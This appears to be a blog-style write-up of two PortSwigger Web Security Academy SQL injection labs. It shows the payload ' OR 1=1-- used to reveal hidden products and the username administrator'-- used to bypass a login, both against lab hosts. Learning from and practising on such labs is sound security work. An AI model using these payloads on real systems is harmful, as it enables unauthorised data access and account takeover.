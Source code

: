```yaml
---
layout: default
title : Muzec - SQL Injection - PortSwigger Web Academy 
---
```



### SQL Injection

Man it all about knowledge seriously everyone love that keep on learning man so i will be learning more on sql injection on portswigger academy feel free to learn along it will be long and fun. Don't be scared man we can solve all lol.

![image](https://user-images.githubusercontent.com/69868171/146219849-7e357c78-2bbd-4c1e-b467-86c19a93899b.png)


Now let get started already.

### What Is SQL Injecion

SQL injection is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. It generally allows an attacker to view data that they are not normally able to retrieve. This might include data belonging to other users, or any other data that the application itself is able to access. In many cases, an attacker can modify or delete this data, causing persistent changes to the application's content or behavior. 

*Taken From PortSwigger*

We all know it about interfering with sql queries to see what we have in the backend let dig in more.

### Impact Of A Successful SQL Injection Attack Vulnerabilities 

A successful SQL injection attack can result in unauthorized access to sensitive data, such as passwords, credit card details, or personal user information.


### SQL Injection Example With Hands On Labs ---> Retrieving Hidden Data

Consider a shopping application that displays products in different categories. When the user clicks on the Gifts category, their browser requests the URL: 

```
https://insecure-website.com/products?category=Gifts 
```

This causes the application to make an SQL query to retrieve details of the relevant products from the database: 
 
```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1 
```

This SQL query asks the database to return: 


```
all details (*)
FROM the products tables
WHERE the Category is Gifts
and released is 1.
```

The restriction `released = 1` is being used to hide products that are not released. For unreleased products, presumably `released = 0`. 

The application doesn't implement any defenses against SQL injection attacks, so an attacker can construct an attack like: 
 
```
https://insecure-website.com/products?category=Gifts'-- 
```

This results in the SQL query:

```
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```

The key thing here is that the double-dash sequence `--` is a comment indicator in SQL, and means that the rest of the query is interpreted as a comment. This effectively removes the remainder of the query, so it no longer includes `AND released = 1`. This means that all products are displayed, including unreleased products.

Going further, an attacker can cause the application to display all the products in any category, including categories that they don't know about: 

```
https://insecure-website.com/products?category=Gifts'+OR+1=1-- 
```

This results in the SQL query:

```
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```
The modified query will return all items where either the category is `Gifts, or 1 is equal to 1`. Since `1=1` is always `true`, the query will return all items. 

Now let play with some labs.

### SQL Injection Lab 1

```
Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
```

This lab contains an `SQL injection` vulnerability in the product category filter. When the user selects a category, the application carries out an SQL query like the following:

```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

To solve the lab, perform an SQL injection attack that causes the application to display details of all products in any category, both released and unreleased. 

![image](https://user-images.githubusercontent.com/69868171/146226619-b674d609-5241-43bf-b8bd-dcbaa98d3d3e.png)

let access the lab.

![image](https://user-images.githubusercontent.com/69868171/146227012-0c9b6990-7ac9-47ca-bfdc-078e574b05d9.png)

Now let see what we have when we click on `Gifts` .

```
https://acbf1fde1fd94946c1df5b4e002500a4.web-security-academy.net/filter?category=Gifts
```

Which is just like the following below;

```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1 
```

Now let exploit it.

![image](https://user-images.githubusercontent.com/69868171/146227735-50be270d-4633-43d0-8016-3bf68e8ddc36.png)

We can see that we have only 3 products listed but to solve the lab we need perform an SQL injection attack that causes the application to display details of all products in any category, both released and unreleased.

```
https://acbf1fde1fd94946c1df5b4e002500a4.web-security-academy.net/filter?category=Lifestyle'+OR+1=1-- 
```

Our Query will be like that below;

```
SELECT * FROM products WHERE category = 'Lifestyle' OR 1=1--' AND released = 1
```

Now let try it.

![image](https://user-images.githubusercontent.com/69868171/146230544-f0b313fd-11f9-4b74-b241-30adb9320962.png)

Boom we solve it and have more products show to us.

![image](https://user-images.githubusercontent.com/69868171/146230656-2c05069f-3620-4221-928c-3509d39b2722.png)

Which mean we are done with the lab 1. Let move forward.

### Subverting Application Logic

Consider an application that lets users log in with a username and password. If a user submits the username `wiener` and the password `bluecheese`, the application checks the credentials by performing the following SQL query:

```
SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'
```

If the query returns the details of a user, then the login is successful. Otherwise, it is rejected.

Here, an attacker can log in as any user without a password simply by using the SQL comment sequence `--` to remove the password check from the `WHERE` clause of the query. For example, submitting the username `administrator'--` and a blank password results in the following query:

```
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```

This query returns the user whose username is `administrator` and successfully logs the attacker in as that user.


### SQL Injection Lab 2

```
Lab: SQL injection vulnerability allowing login bypass
```

This lab contains an `SQL injection` vulnerability in the login function.

To solve the lab, perform an SQL injection attack that logs in to the application as the `administrator` user.

Now let access the lab.

![image](https://user-images.githubusercontent.com/69868171/146233475-22dc4c45-ea09-46b4-aac8-8b3946a782e0.png)

Now let click on `my account` to log in.

![image](https://user-images.githubusercontent.com/69868171/146233553-ea75de43-931e-40d8-9d3f-9a2e6c8b06d6.png)

We have a login page if i can remember the goal clearly we need to access the `administrator` account using sql injection to exploit it. Now let hit it.

```
username:- administrator'--
password:- <blank>
```

![image](https://user-images.githubusercontent.com/69868171/146233915-bdb8cf2b-a37e-47ac-b91f-7e655e68fa3c.png)

Now let log in we can use `burp suite` to intercept the request to make the password field blank.

![image](https://user-images.githubusercontent.com/69868171/146234630-f1315bce-aeea-48f3-be56-37de349ec2fa.png)

I remove the `12` i added has password and send request and boom we are in and administrator account access.

![image](https://user-images.githubusercontent.com/69868171/146234914-b607ea27-8490-4d36-817a-7c64e8027188.png)

We are done and lab 2 clear.

